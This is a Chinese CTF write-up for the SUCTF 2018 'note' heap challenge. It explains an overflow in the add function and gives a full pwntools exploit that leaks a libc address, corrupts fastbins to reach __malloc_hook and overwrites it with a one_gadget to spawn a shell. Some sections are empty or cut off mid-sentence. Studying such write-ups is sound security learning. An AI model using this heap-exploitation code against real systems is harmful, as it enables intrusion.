

title: suctf-2018-note

date: 2018-06-23 20:09:43

categories:
- CTF
- malloc-hook


## 检测开启保护

[题目下载](note.zip)


## 逆向分析

可以发现add功能中有明显的溢出， box功能可以free chunk ， 然后会被合并到





## 完整EXP

思路比较简单，就是讲`malloc_hook`链入到fastbins，分配写入`/bin/sh`地址。

- one 就是 one_gadget 得到shell地址
- libc.address = 地址的获得，就是使用
  - 0x00007f91d701cb58  泄漏地址
  - 0x00007f91d6c5d000  so基地址
  - 偏移0x3bfb58 = 泄漏地址 - so基地址
  - so基地址 = 泄露地址 - 偏移0x3bfb58

```python
from pwn import *
# p = process('./note',env= {"LD_PRELOAD":"./libc6_2.24-12ubuntu1_amd64.so"})
p = process('./note',env= {"LD_PRELOAD":"/lib/x86_64-linux-gnu/libc.so.6"})
#libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
libc = ELF('./libc6_2.24-12ubuntu1_amd64.so')
def add(size,con):
    p.sendlineafter(">>",'1')
    p.sendlineafter('Size:',str(size))
    p.sendlineafter('Content:',con)

def show(idx):
    p.sendlineafter("Choice>>",'2')
    p.sendlineafter('Index:',str(idx))
    p.recvuntil('Content:')
    data = p.recvn(6)
    return data

def pwn():
    add(120,'A'*8)
    add(0xdc0,'d'*0xdc0+ 'A'*8+p64(0x91))
    add(0xa0,'c')
    p.sendlineafter("Choice>>",'3')
    p.sendlineafter(':1)','1')
    data = show(0)
    libc.address = u64(data.ljust(8,'\x00')) -0x3bfb58# 0x3c4b78
    success("libc is " + hex(libc.address))
    gdb.attach(p)
    payload = 'A'*0xf68+p64(0x71) + p64(libc.symbols['__malloc_hook']-19-0x10)
    one = libc.address + 0xf241b
    success("one is "+hex(one))
    # gdb.attach(p)

    add(0x110,payload)
    gdb.attach(p)
    add(0x60,'c')
    add(0x60,'c'*19+p64(one))
    p.interactive()
pwn()
```

不知道pwn()函数全三全是什么埋坑。

add(120,'A'*8) 

add(0xdc0, 'd'\*0xdc0+ 'A'\*8+p64(0x91)) 

add(0xa0,'c')

## 参考

[SUCTF 2018部分PWN题复现](http://p4nda.top/2018/05/29/suctf2018/)

[suctf的两道pwn——Heap和Note](https://arisxu.github.io/2018/06/03/suctf/)

[腹黑‘s blog SUCTF WriteUp By W&P](http://www.lovei.org/archives/suctf2018.html)

